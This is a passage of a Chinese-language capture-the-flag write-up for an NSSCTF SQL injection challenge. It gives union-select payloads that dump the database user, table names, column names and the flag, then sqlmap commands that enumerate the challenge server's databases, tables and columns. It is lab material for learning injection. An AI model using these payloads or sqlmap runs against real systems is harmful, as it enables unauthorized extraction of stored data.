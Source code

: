爆用户名

```
/?wllm=-1 ' union select 1, 2, user() -- '
```

![image-20250731112906423](E:\note_ctf\assets\image-20250731112906423.png)

爆表

```
/?wllm=-1 ' union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema='test_db'-- '
```

![image-20250731113511057](E:\note_ctf\assets\image-20250731113511057.png)

爆列

```
/?wllm=-1 ' union select 1, 2, group_concat(column_name) from information_schema.columns where table_name='test_tb' -- '
```

![image-20250731113603691](E:\note_ctf\assets\image-20250731113603691.png)

拿flag

```
/?wllm=-1 ' union select 1,2, group_concat(flag) from test_tb -- '
```

![image-20250731113620381](E:\note_ctf\assets\image-20250731113620381.png)

## 方法二

输入sqlmap的命令，爆破数据库名：sqlmap -u "url地址/?wllm=1" --dbs

```
sqlmap -u "http://node7.anna.nssctf.cn:22221/?wllm=1" --dbs
```

![image-20250731114205127](E:\note_ctf\assets\image-20250731114205127.png)

爆表名：sqlmap -u "url地址/?wllm=1" -D test_db --tables

```
sqlmap -u "http://node7.anna.nssctf.cn:22221/?wllm=1" -D test_db --tables
```

![image-20250731114420120](E:\note_ctf\assets\image-20250731114420120.png)

爆列名：sqlmap -u "url地址/?wllm=1" -D test_db -T test_tb --columns

```
sqlmap -u "http://node7.anna.nssctf.cn:22221/?wllm=1" -D test_db -T test_tb --columns
```

![image-20250731114555847](E:\note_ctf\assets\image-20250731114555847.png)
